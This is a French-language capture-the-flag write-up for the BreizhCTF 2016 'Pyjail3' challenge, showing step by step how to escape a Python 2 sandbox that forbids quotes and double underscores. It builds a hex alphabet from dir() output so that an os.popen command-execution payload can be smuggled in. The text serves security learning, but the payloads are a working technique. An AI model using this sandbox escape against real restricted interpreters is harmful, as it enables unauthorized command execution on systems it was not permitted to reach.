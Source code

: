 # BREIZHCTF 2K16
**Chall:** Pyjail3
**Points:** 300 |
**Taux de réussite:** 7% |


Dans ce challenge on reste dans la même logique que les deux précédents (sortir du jail), sauf que cette fois ci on a plus droit au caractères suivants : " ' __ 

On peut directement eliminé l'approche utilisée pour le pyjail2 car on a plus de moyen d'envoyer une chaine de caractères au programme. Reste l'approche du payjail1, mais celle ci necéssite des caractères non autorisés dans ce chall :/

Après beaucoup de M&Ms et de l'eau du robinet :p 

En listant les outils qu'on a :
 - La fonction dir
 - La fonction _
 - La declaration de variable de type autre que str (a = 2)

L'idée de contruire une chaine de caractères qui sera notre payload pour récupérer le flag semble la plus pertinente, on sait que notre payload est le suivant :

```
>wclass = ().__class__.__base__.__subclasses__()[59]()
>print wclass._module.__builtins__['__import__']('os').popen('cat flag').read()
 ```

En utilisant la fonction dir on peut instancier un objet de type str :
```
> a= 2
> print dir(a)
['__abs__', '__add__', '__and__', '__class__', '__cmp__', '__coerce__', '__delattr__', '__div__', '__divmod__', '__doc__', '__float__', '__floordiv__', '__format__', '__getattribute__', '__getnewargs__', '__hash__', '__hex__', '__index__', '__init__', '__int__', '__invert__', '__long__', '__lshift__', '__mod__', '__mul__', '__neg__', '__new__', '__nonzero__', '__oct__', '__or__', '__pos__', '__pow__', '__radd__', '__rand__', '__rdiv__', '__rdivmod__', '__reduce__', '__reduce_ex__', '__repr__', '__rfloordiv__', '__rlshift__', '__rmod__', '__rmul__', '__ror__', '__rpow__', '__rrshift__', '__rshift__', '__rsub__', '__rtruediv__', '__rxor__', '__setattr__', '__sizeof__', '__str__', '__sub__', '__subclasshook__', '__truediv__', '__trunc__', '__xor__', 'bit_length', 'conjugate', 'denominator', 'imag', 'numerator', 'real']
> b = dir(a)[0]
> print b
'__abs__'
```
Comme notre payload contient plein de caractères non alphabétiques il sera dur pour nous de les retrouver juste avec ce qu'on a, mais si on encode le payload en base 16 (hex) l'alphabet sera réduit à 16 caractères !
En plus pour notre objet de type str on a les deux méthodes "encode" et "decode" qui sont autorisées \o/

```
>print b.encode
<built-in method encode of str object at 0x7f942313e780>
>print b.decode
<built-in method decode of str object at 0x7f942313e780>
```

Reste plus qu'a contruire l'alphabet hexadecimal, on récupère d'abord le mot hex pour qu'on puisse le passer aux deux méthodes "encode" et "decode".
```
> hex = dir(a)[16][2:5]
> print b.encode(hex)
5f5f6162735f5f
```

Une fois cette opération possible on passe à l'étape suivante qui consiste en la création de l'alphabet hex : 
```
>tmp = [c.encode(hex) for c in dir(b)]
>print tmp
['5f5f6164645f5f', '5f5f636c6173735f5f', '5f5f636f6e7461696e735f5f', '5f5f64656c617474725f5f', '5f5f646f635f5f', '5f5f65715f5f', '5f5f666f726d61745f5f', '5f5f67655f5f', '5f5f6765746174747269627574655f5f', '5f5f6765746974656d5f5f', '5f5f6765746e6577617267735f5f', '5f5f676574736c6963655f5f', '5f5f67745f5f', '5f5f686173685f5f', '5f5f696e69745f5f', '5f5f6c655f5f', '5f5f6c656e5f5f', '5f5f6c745f5f', '5f5f6d6f645f5f', '5f5f6d756c5f5f', '5f5f6e655f5f', '5f5f6e65775f5f', '5f5f7265647563655f5f', '5f5f7265647563655f65785f5f', '5f5f726570725f5f', '5f5f726d6f645f5f', '5f5f726d756c5f5f', '5f5f736574617474725f5f', '5f5f73697a656f665f5f', '5f5f7374725f5f', '5f5f737562636c617373686f6f6b5f5f', '5f666f726d61747465725f6669656c645f6e616d655f73706c6974', '5f666f726d61747465725f706172736572', '6361706974616c697a65', '63656e746572', '636f756e74', '6465636f6465', '656e636f6465', '656e647377697468', '657870616e6474616273', '66696e64', '666f726d6174', '696e646578', '6973616c6e756d', '6973616c706861', '69736469676974', '69736c6f776572', '69737370616365', '69737469746c65', '69737570706572', '6a6f696e', '6c6a757374', '6c6f776572', '6c7374726970', '706172746974696f6e', '7265706c616365', '7266696e64', '72696e646578', '726a757374', '72706172746974696f6e', '7273706c6974', '727374726970', '73706c6974', '73706c69746c696e6573', '73746172747377697468', '7374726970', '7377617063617365', '7469746c65', '7472616e736c617465', '7570706572', '7a66696c6c']


> alphabet = tmp[0][5]+tmp[3][-5]
>print alphabet
12
```

Et on continue jusqu'à ce que :
```
>print alphabet
1234567890abcdef
```

Une fois l'alphabet prêt on encode les deux instructions de notre payload en hexa : 
```
>>> "wclass = ().__class__.__base__.__subclasses__()[59]()".encode('hex')
'77636c617373203d2028292e5f5f636c6173735f5f2e5f5f626173655f5f2e5f5f737562636c61737365735f5f28295b35395d2829'
>>> "print wclass._module.__builtins__['__import__']('os').popen('cat flag').read()".encode('hex')
'7072696e742077636c6173732e5f6d6f64756c652e5f5f6275696c74696e735f5f5b275f5f696d706f72745f5f275d28276f7327292e706f70656e282763617420666c616727292e726561642829'
```

Sachant que les deux méthodes "encode" et "decode" retournent une chaine de caractères comme résultat, l'idée est d'envoyer ces deux lignes en hex au programme et que le programme les décode pour les envoyer à la fonction "_" qui prend en paramètre une chaine de caractères.
En utilisant le petit programme python 'generator.py' on transforme le code hexa en plusieurs accès à la liste alphabet qui contient l'alphabet hexadécimal (ce qui nous permet d'envoyer au programme que des caractères autorisés).

Initialisation de la variable wcalss : 
```
> _((alphabet[6]+alphabet[6]+alphabet[5]+alphabet[2]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+
alphabet[6]+alphabet[2]+alphabet[6]+alphabet[2]+alphabet[1]+alphabet[9]+alphabet[2]+alphabet[13]+
alphabet[1]+alphabet[9]+alphabet[1]+alphabet[7]+alphabet[1]+alphabet[8]+alphabet[1]+alphabet[14]+
alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[5]+alphabet[2]+alphabet[5]+alphabet[12]+
alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+alphabet[6]+alphabet[2]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+
alphabet[5]+alphabet[1]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+alphabet[5]+alphabet[4]+
alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[6]+alphabet[2]+alphabet[6]+alphabet[4]+alphabet[5]+alphabet[1]+
alphabet[5]+alphabet[2]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+
alphabet[6]+alphabet[2]+alphabet[5]+alphabet[4]+alphabet[6]+alphabet[2]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[1]+alphabet[7]+alphabet[1]+alphabet[8]+alphabet[4]+alphabet[11]+
alphabet[2]+alphabet[4]+alphabet[2]+alphabet[8]+alphabet[4]+alphabet[13]+alphabet[1]+alphabet[7]+
alphabet[1]+alphabet[8]).decode(hex))	

>print wclass
catch_warnings()
```

Récupération du flag :
```
> _((alphabet[6]+alphabet[9]+alphabet[6]+alphabet[1]+alphabet[5]+alphabet[8]+alphabet[5]+alphabet[14]+
alphabet[6]+alphabet[3]+alphabet[1]+alphabet[9]+alphabet[6]+alphabet[6]+alphabet[5]+alphabet[2]+
alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+alphabet[6]+alphabet[2]+
alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+alphabet[5]+alphabet[13]+alphabet[5]+alphabet[15]+
alphabet[5]+alphabet[3]+alphabet[6]+alphabet[4]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[4]+
alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[5]+alphabet[1]+
alphabet[6]+alphabet[4]+alphabet[5]+alphabet[8]+alphabet[5]+alphabet[12]+alphabet[6]+alphabet[3]+
alphabet[5]+alphabet[8]+alphabet[5]+alphabet[14]+alphabet[6]+alphabet[2]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[4]+alphabet[11]+alphabet[1]+alphabet[6]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[5]+alphabet[8]+alphabet[5]+alphabet[13]+alphabet[6]+alphabet[9]+
alphabet[5]+alphabet[15]+alphabet[6]+alphabet[1]+alphabet[6]+alphabet[3]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[1]+alphabet[6]+alphabet[4]+alphabet[13]+alphabet[1]+alphabet[7]+
alphabet[1]+alphabet[6]+alphabet[5]+alphabet[15]+alphabet[6]+alphabet[2]+alphabet[1]+alphabet[6]+
alphabet[1]+alphabet[8]+alphabet[1]+alphabet[14]+alphabet[6]+alphabet[9]+alphabet[5]+alphabet[15]+
alphabet[6]+alphabet[9]+alphabet[5]+alphabet[4]+alphabet[5]+alphabet[14]+alphabet[1]+alphabet[7]+
alphabet[1]+alphabet[6]+alphabet[5]+alphabet[2]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[3]+
alphabet[1]+alphabet[9]+alphabet[5]+alphabet[5]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+
alphabet[5]+alphabet[6]+alphabet[1]+alphabet[6]+alphabet[1]+alphabet[8]+alphabet[1]+alphabet[14]+
alphabet[6]+alphabet[1]+alphabet[5]+alphabet[4]+alphabet[5]+alphabet[0]+alphabet[5]+alphabet[3]+
alphabet[1]+alphabet[7]+alphabet[1]+alphabet[8]).decode(hex))

BZH{wow super flag \o/}
```


